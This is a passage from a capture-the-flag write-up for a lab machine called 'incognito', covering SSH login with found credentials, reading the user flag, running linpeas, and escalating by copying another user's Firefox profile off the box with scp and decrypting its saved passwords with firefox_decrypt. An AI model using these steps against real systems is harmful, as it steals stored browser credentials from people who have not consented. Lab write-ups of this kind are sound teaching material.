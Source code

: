 These credentials don't work at the login page:

![[Pasted image 20250424132817.png]]

We can try them out at `ssh`:


![[Pasted image 20250424132948.png]]

They worked, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---

We can read `user.txt` now:

```
tommy@incognito:~$ cat user.txt
7ba840222ecbdb57af4d24eb222808ad
```

Let's use `linpeas` to search any PE vector:

![[Pasted image 20250424133902.png]]

We got another user called `carlJ`, let's check if we can visualize its home:

![[Pasted image 20250424133944.png]]

We got a `.mozilla` folder, with this, we can use a tool called `firefox-decrypt`

![[Pasted image 20250424134900.png]]

Let's clone it to our machine and do the following:

```bash
git clone https://github.com/unode/firefox_decrypt
scp -r tommy@IP:/home/carlJ/.mozilla/firefox .
```

![[Pasted image 20250424135714.png]]

We get prompt with a password, we can try some basic password and notice the password for this is:

```
password1
```

```python
python3 firefox_decrypt.py ../firefox
Select the Mozilla profile you wish to decrypt
1 -> 45ir4czt.default
2 -> 0ryxwn4c.default-release
2

Primary Password for profile ../firefox/0ryxwn4c.default-release:

Website:   https://incognito.com
Username: 'dev'
Password: 'Pas$w0RD59247'
```
